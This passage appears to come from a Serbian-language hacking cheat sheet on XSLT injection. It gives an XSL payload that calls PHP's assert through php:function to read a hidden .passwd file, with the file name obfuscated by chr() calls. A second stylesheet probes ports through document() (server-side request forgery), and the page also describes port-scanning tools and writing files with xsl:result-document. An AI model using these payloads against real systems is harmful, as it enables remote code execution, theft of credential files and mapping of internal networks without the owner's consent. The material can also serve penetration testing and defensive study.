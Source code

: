 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(file_get_contents(scandir(chr(46).chr(47))[2].chr(47).chr(46).chr(112).chr(97).chr(115).chr(115).chr(119).chr(100)))==3')" />
<br />
</body>
</html>
```

### Skeniranje portova

Port skeniranje je proces koji se koristi za identifikaciju otvorenih portova na ciljnom računaru ili mreži. Ova tehnika omogućava hakerima da otkriju koje usluge ili aplikacije su dostupne na određenim portovima. Kada se otkrije otvoren port, haker može iskoristiti ranjivosti tih usluga ili aplikacija kako bi izvršio napad.

Postoje različiti alati i tehnike koje se mogu koristiti za skeniranje portova. Neki od najčešće korišćenih alata su Nmap, Masscan i Zmap. Ovi alati omogućavaju hakerima da skeniraju veliki broj portova u kratkom vremenskom periodu.

Port skeniranje može biti pasivno ili aktivno. Pasivno skeniranje se odnosi na praćenje mrežnog saobraćaja kako bi se identifikovali otvoreni portovi. Aktivno skeniranje, s druge strane, uključuje slanje posebnih paketa na ciljne portove kako bi se proverilo da li su otvoreni ili zatvoreni.

Važno je napomenuti da je port skeniranje ilegalno bez dozvole vlasnika sistema ili mreže. Ova tehnika se često koristi u etičkom hakovanju ili pentestiranju kako bi se identifikovali bezbednosni propusti i ranjivosti.

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="document('http://example.com:22')"/>
</xsl:template>
</xsl:stylesheet>
```

## Pisanje u datoteku

### XSLT 2.0

XSLT 2.0 podržava pisanje u datoteku pomoću `xsl:result-document` elementa. Ovaj element omogućava generisanje izlaznih datoteka tokom izvršavanja transformacije.

Da biste napisali sadržaj u datoteku, prvo morate definisati putanju do ciljne datoteke koristeći `href` atribut `xsl:result-document` elementa. Na primer:

```xml
<xsl:result-document href="putanja/do/datoteke.txt">
    <!-- Sadržaj koji želite da napišete u datoteku -->
</xsl:result-document>
```

